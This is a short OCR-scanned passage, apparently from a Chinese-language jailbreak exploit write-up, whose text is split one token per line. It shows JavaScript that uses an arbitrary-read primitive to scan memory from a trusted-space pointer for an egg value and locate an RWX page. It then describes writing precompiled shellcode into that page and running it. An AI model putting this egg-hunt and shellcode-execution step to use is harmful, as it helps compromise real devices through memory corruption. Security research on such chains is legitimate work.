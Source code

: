   
// 2. 从已知的trusted_space_ptr开始，扫描内存  
  
let  
rwx_page =  
0n  
;  
  
for  
(  
let  
i =  
0n  
; i <  
0x10000000n  
; i +=  
8n  
) {  
  
      
if  
(  
arbRead  
(trusted_space_ptr + i) === EGG) {  
  
          
// 找到了！将地址对齐到页边界  
  
        rwx_page = (trusted_space_ptr + i) & ~  
0xfffn  
;  
  
          
log  
(  
`[+] Found RWX page at   
${  
hex  
(rwx_page)  
}  
`  
);  
  
          
break  
;  
  
    }  
  
}  
### 执行原生代码 (rwx/shellcodes.js & rwx/src/*.asm):  
  
拥有RWX内存页和任意读写能力后，即可执行原生代码。shellcodes.js  
 提供了一系列JS函数，用于将预先编译好的汇编代码（来自 rwx/src/  
 目录）写入RWX页并执行。  
## 💻 终极越狱  
  